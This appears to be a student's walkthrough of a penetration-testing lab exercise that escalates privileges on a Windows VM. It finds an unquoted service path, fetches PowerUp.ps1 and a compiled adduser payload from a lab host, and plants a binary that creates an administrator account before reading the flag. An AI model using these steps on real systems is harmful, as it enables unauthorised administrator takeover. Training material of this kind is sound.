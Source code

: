 # Questions 2
Connect to CLIENTWK221 (VM #2) via RDP as user damian with the password ICannotThinkOfAPassword1!. Enumerate the services and find an unquoted service binary path containing spaces. Exploit it with methods from this section and obtain an interactive shell as the user running the service. Find the flag on the desktop.

# HINT
Use the provided command in listing 68 for unquoted paths and containing spaces.
Use the provided command in listing 72 for write permissions.
Replace the service's executable by renaming with a malicious binary and restart the service.

xfreerdp /u:damian /p:ICannotThinkOfAPassword1! /v:192.168.192.221

# Open the powershell 
Get-CimInstance -ClassName win32_service | Select Name,State,PathName 
BackupMonitor   Running C:\BackupMonitor\BackupMonitor.exe
ReynhSurveillance  Stopped C:\Enterprise Software\Monitoring Solution\Surveillance Apps\Reynh...


# To confirm again with the WMIC
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
BackupMonitor                              C:\BackupMonitor\BackupMonitor.exe                                                                       
ReynhSurveillance                          C:\Enterprise Software\Monitoring Solution\Surveillance Apps\ReynhSurveillance.exe

# Where I think 'ReynhSurveillance' is more relevant
# Lets open the surveillance software path
C:\Enterprise Software\Monitoring Solution\>icacls .
. CLIENTWK221\damian:(OI)(CI)(RX,W)s
  BUILTIN\Administrators:(OI)(CI)(F)
  NT AUTHORITY\SYSTEM:(OI)(CI)(F)
  BUILTIN\Users:(OI)(CI)(RX)

# Builtin users able to write in this parent folder

# Test the user do have the service permissions
PS C:\Users\damian> start-service ReynhSurveillance
PS C:\Users\damian> stop-service ReynhSurveillance

# No issue at all, now we will check the unquoted paths and containing spaces using automate tools
PS C:\Users\damian> iwr -uri http://192.168.45.178/PowerUp.ps1 -Outfile Powerup.ps1
PS C:\Users\damian> powershell -ep bypass
PS C:\Users\damian> . .\Powerup.ps1
PS C:\Users\damian> Get-UnquotedService

ServiceName    : ReynhSurveillance
Path           : C:\Enterprise Software\Monitoring Solution\Surveillance Apps\ReynhSurveillance.exe
ModifiablePath : @{ModifiablePath=C:\Enterprise Software\Monitoring Solution; IdentityReference=CLIENTWK221\damian;
                 Permissions=System.Object[]}
StartName      : .\roy
AbuseFunction  : Write-ServiceBinary -Name 'ReynhSurveillance' -Path <HijackPath>
CanRestart     : True
Name           : ReynhSurveillance

# Above results show ReynhSurveillance is vulnerable
# Prepare the adduser payload and upload to the writable folder
# Refer to adduser.C
# Inside Kali OS
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe 
chmod 777 adduser.exe

# When a service is started and a process is created, the Windows CreateProcess function is used. Reviewing the first parameter of the function, lpApplicationName is used to specify the name and optionally the path to the executable file. If the provided string contains spaces and is not enclosed within quotation marks, it can be interpreted in various ways because it is unclear to the function where the file name ends and the arguments begin. To determine this, the function starts interpreting the path from left to right until a space is reached. For every space in the file path, the function uses the preceding part as file name by adding .exe and the rest as arguments.

C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe

# Upload the payload
PS C:\Enterprise Software\Monitoring Solution> iwr -uri http://192.168.45.178/adduser.exe -Outfile Surveillance.exe

# In following the loophole of the Windows CreateProcess lpApplicationName, we will use Surveillance.exe filename as it will be priority execute compare to 'Surveillance Apps'\ReynhSurveillance.exe

# Execute the payload
PS C:\Enterprise Software\Monitoring Solution> Write-ServiceBinary -Name 'ReynhSurveillance' -Path 'C:\Enterprise Software\Monitoring Solution\Surveillance.exe'

ReynhSurveillance C:\Enterprise Software\Monitoring Solution\Surveillance.exe net user john Password123! /add && timeout ...

PS C:\Enterprise Software\Monitoring Solution> Restart-Service ReynhSurveillance

# Lets check the user john is being added to user and admin group
net user
...
john
...
net localgroup administrators
...
john
...

start-process PowerShell -verb runas
PS C:\Users\roy\Desktop> type flag.txt
OS{d1e9b467afe807d9ba3a8f64d3c1469a}

